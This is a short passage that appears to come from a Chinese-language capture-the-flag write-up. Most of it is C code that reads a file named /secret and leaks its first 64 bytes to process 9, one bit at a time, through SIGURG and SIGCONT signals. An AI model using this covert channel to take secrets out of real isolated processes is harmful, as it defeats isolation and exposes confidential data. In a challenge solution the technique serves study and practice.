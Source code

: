 查看网页输出，为 9

于是 Alice:

```c
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *getfileall(char *fname) {
    FILE *fp;
    char *str;
    char txt[1000];
    int filesize;

    if ((fp = fopen(fname, "r")) == NULL) {
        return NULL;
    }

    fseek(fp, 0, SEEK_END);
    filesize = ftell(fp);

    str = (char *)malloc(filesize);

    str[0] = 0;

    rewind(fp);

    while ((fgets(txt, 1000, fp)) != NULL) {
        strcat(str, txt);
    }
    fclose(fp);
    return str;
}

int main() {
    char *p = getfileall("/secret");
    unsigned target_pid = 9;
    // wait for b?
    sleep(1);
    for (int i = 0; i < 64; i++) {
        for (int j = 0; j < 8; j++) {
            // 从每个字节的低位开始
            if (p[i] & (1 << j)) {
                // 22: SIGURG
                kill(target_pid, 22);
            } else {
                // 17: SIGCONT
                kill(target_pid, 17);
            }
            usleep(10 * 1000);
        }
    }
    return 0;
}
```
